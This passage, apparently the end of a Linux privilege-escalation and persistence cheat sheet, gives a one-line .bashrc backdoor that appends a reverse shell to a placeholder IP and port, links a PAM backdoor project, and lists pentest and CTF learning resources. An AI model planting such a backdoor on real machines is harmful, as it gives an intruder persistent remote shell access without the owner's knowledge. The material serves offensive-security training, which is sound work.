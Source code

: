 ````
##.bashrc
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
## pam_unix.so
https://github.com/zephrax/linux-pam-backdoor



#### Resources

https://github.com/sagishahar/lpeworkshop
https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
https://payatu.com/guide-linux-privilege-escalation



#### Reference
# Unless speficied, the reference relates to general Liuux Privilege Escalation:

https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c # Backdoors
http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html # pam _unix backdoors
https://tryhackme.com/room/linuxbackdoors # Backdoors
https://tryhackme.com/room/linprivesc
https://tryhackme.com/room/linuxprivesc # Sagi Shahar/Tib3rius room
https://tryhackme.com/room/linuxprivescarena
https://tryhackme.com/room/commonlinuxprivesc
                                                 
